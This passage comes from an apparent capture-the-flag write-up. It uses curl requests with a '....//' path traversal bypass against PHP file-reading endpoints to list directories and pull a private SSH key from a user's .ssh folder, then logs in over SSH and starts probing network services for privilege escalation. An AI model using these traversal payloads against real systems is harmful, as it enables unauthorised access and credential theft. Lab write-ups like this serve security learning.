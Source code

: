 This can also be done with `curl` for easier exploitation:
```markdown
curl -s http://10.10.10.87/dirRead.php -d 'path=....//....//....//' | jq
```

It shows a default Linux file system tree with the only thing that is different is the _.dockerenv_ directory, which means this is a **Docker container**.

There is one home directory of _nobody_ with a _.ssh_ directory:
```markdown
curl -s http://10.10.10.87/dirRead.php -d 'path=....//....//....//home/nobody/.ssh' | jq
```
```markdown
".monitor"
"authorized_keys"
"known_hosts"
```

Displaying the contents of _.monitor_:
```markdown
curl -s http://10.10.10.87/fileRead.php -d 'file=....//....//....//home/nobody/.ssh/.monitor' | jq -r ."file"
```

It is a private SSH key, so lets try it out with the user _nobody_:
```markdown
ssh -i nobody.key nobody@10.10.10.87
```

It works and we are logged in as _nobody_.

## Privilege Escalation

This **Docker container** has two network interfaces:
- docker0 IP: 172.17.0.1
- enps33 IP: 10.10.10.87

When looking at the current connections with `netstat -alnp`, it shows that we are connected to port 8888:
```markdown
tcp        0    148 10.10.10.87:8888        10.10.14.7:33462        ESTABLISHED -
```

So when we connected to SSH on _10.10.10.87:22_, it routed us to _172.17.0.1:8888_.

Looking at listening network services:
```markdown
netstat -alnp | grep LISTEN
```
```markdown
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -
```

There is a connectivity between the container and the host as the SSH header is different from the initial header:
```markdown
nc 10.10.10.87 22

SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u3
```
